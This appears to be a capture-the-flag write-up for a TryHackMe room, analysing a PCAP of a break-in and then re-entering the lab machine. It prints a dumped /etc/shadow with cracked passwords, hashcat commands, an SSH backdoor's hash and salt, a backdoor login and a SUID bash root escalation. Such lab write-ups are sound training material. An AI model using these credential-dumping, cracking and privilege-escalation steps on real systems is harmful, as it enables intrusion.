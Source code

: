 # [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)

## Task 1: Forensics - Analyse the PCAP

> What was the URL of the page they used to upload a reverse shell?

Since we're looking for a URL, we should first use the filter `http` to get HTTP packets. Since the question is looking for an "upload", we should look at "POST" and "PUT" requests. The only "POST" request we have is to `/development/upload.php` so the answer is `/development/`.

![HTTP POST request](./http-post-revshell.png)

> What payload did the attacker use to gain access?

Following the `POST` request, we can see the request body with some PHP code, which is our payload.

![PHP reverse shell payload](./php-revshell.png)

> What password did the attacker use to privesc?

Since the `POST` request uploading the payload is packet 14 and the TCP stream it belongs to (`tcp.stream eq 1`, packets 11-23) didn't include the password we're looking for, we should look at TCP packets after packet 23 or TCP streams after 1. After a bit of trial and error, we can find communication with out reverse shell in TCP stream 3 (`tcp.stream eq 3`).

![Shell with privesc](./shell.png)

In the above shell, we can see the attacker performing privilege escalation with `su james` and the password `whenevernoteartinstant`.

> How did the attacker establish persistence?

Further down in the same TCP stream 3, we can see the attacker downloading and using an SSH backdoor from `https://github.com/NinjaJc01/ssh-backdoor`

![git clone backdoor](./backdoor.png)

> Using the fasttrack wordlist, how many of the system passwords were crackable?

Earlier in TCP stream 3, the attacker dumped some password hashes with `sudo cat /etc/shadow`. In that dump, there are 5 hashes of interest to us:

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

Password hashes in `/etc/shadow` that start with `$6$` are sha512crypt hashes and the hashcat mode for that is `1800`. The question asks for the "fasttrack" wordlist which you can get [here](https://github.com/trustedsec/social-engineer-toolkit/blob/master/src/fasttrack/wordlist.txt). To crack the hashes, run:

```sh
hashcat -m 1800 --username hashes fasttrack.txt
```

As a result, we have **4** hashes cracked

```
bee:secret12
paradox:secuirty3
muirland:1qaz2wsx
szymex:abcd123
```

## Task 2: Research - Analyse the code

To get the backdoor, clone it from `https://github.com/NinjaJc01/ssh-backdoor`.

> What's the default hash for the backdoor?

In `main.go`, line 19, we can find the default password hash: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

> What's the hardcoded salt for the backdoor?

On line 108, we see a call to `verifyPass()`, whose 2nd argument is the salt: `1c362db832f3f864c8c2fe05f2002a05`

> What was the hash that the attacker used? - go back to the PCAP for this!

Note that in the backdoor, the hash is provided with the `-a` flag. Looking back at TCP stream 3 in the PCAP, we can see the attack provided their own hash

```sh
$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

> Crack the hash using rockyou and a cracking tool of your choice. What's the password?

We can see in the function `hashPassword()` of the backdoor that SHA512 is used, and the hash is `SHA512(password + hash)`, so the hashcat mode to use is `1710`. To crack the hash, run:

```sh
hashcat -m 1710 hash:salt path/to/rockyou
```

The resulting password is "november16".

## Task 3: Attack - Get back in!

If you look back at the PCAP, TCP stream 3, you'll see at the bottom the line "SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222" telling us that the backdoor is listening on port 2222, which is the default port for the backdoor used by the attacker. Knowing the password, we can just use the same backdoor to get in.

```sh
$ ssh MACHINE_IP -p 2222
```

Using the password "november16", we get an SSH shell as `james`.

One common thing to look for is SUID binaries. To find them, run:

```sh
find / -perm /4000 2>/dev/null
```

This returns, among other binaries, `/home/james/.suid_bash`. Would have been quicker to run `ls -la` in `/home/james`, but oh well. To run bash and keep the escalated shell from the SUID bit, we run it with the `-p` flag.

```sh
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
```

And with that, we have rooted the machine!
